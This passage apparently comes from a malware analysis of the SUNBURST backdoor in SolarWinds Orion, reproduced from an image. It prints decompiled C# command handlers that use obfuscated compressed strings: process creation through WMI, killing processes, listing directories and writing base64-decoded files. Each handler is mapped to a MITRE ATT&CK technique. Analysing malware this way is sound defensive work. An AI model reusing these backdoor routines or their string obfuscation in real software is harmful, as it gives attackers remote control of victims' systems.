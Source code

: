 ```csharp
			};
			ManagementObject managementObject2 = managementObject;
			string methodName = OrionImprovementBusinessLayer.ZipHelper.Unzip("c08t8S/PSy0CAA==");
			object[] array2 = array;
			object[] args2 = array2;
			Convert.ToInt32(managementObject2.InvokeMethod(methodName, args2));
			result += string.Format(OrionImprovementBusinessLayer.ZipHelper.Unzip("i6420DGtjVWoNtTRNTSrVag2quWsNgYKKVSb1MZUm9ZyAQA="), new object[]
			{
				managementObject[OrionImprovementBusinessLayer.ZipHelper.Unzip("CyjKT04tLvZ0AQA=")],
				OrionImprovementBusinessLayer.Quote(managementObject[OrionImprovementBusinessLayer.ZipHelper.Unzip("80vMTQUA")].ToString()),
				managementObject[args[0]],
				managementObject[OrionImprovementBusinessLayer.ZipHelper.Unzip("C0gsSs0rCSjKT04tLvZ0AQA=")],
				array[1],
				array[0]
			});
		}
	}
}
```
<br /><br />
Kill a task by PID - T1489 Service Stop & T1543.003 Create or Modify System Process

```csharp
public static void KillTask(string[] args)
{
	Process.GetProcessById(int.Parse(args[0])).Kill();
}
```
<br /><br />
Get files and folders by path - T1083 File and Directory Discovery

```csharp
public static void GetFileSystemEntries(string[] args, out string result)
{
	string searchPattern = (args.Length >= 2) ? args[1] : "*";
	string path = Environment.ExpandEnvironmentVariables(args[0]);
	string[] value = (from f in Directory.GetFiles(path, searchPattern)
	select Path.GetFileName(f)).ToArray<string>();
	string[] value2 = (from f in Directory.GetDirectories(path, searchPattern)
	select Path.GetFileName(f)).ToArray<string>();
	result = string.Join("\n", value2) + "\n\n" + string.Join(" \n", value);
}
```
<br /><br />
Write to file - T1105 Ingress Tool Transfer

```csharp
public static void WriteFile(string[] args)
{
	string path = Environment.ExpandEnvironmentVariables(args[0]);
	byte[] array = Convert.FromBase64String(args[1]);
	for (int i = 0; i < 3; i++)
	{
		try
		{
			using (FileStream fileStream = new FileStream(path, FileMode.Append, FileAccess.Write))
			{
				fileStream.Write(array, 0, array.Length);
			}
			break;
		}
```
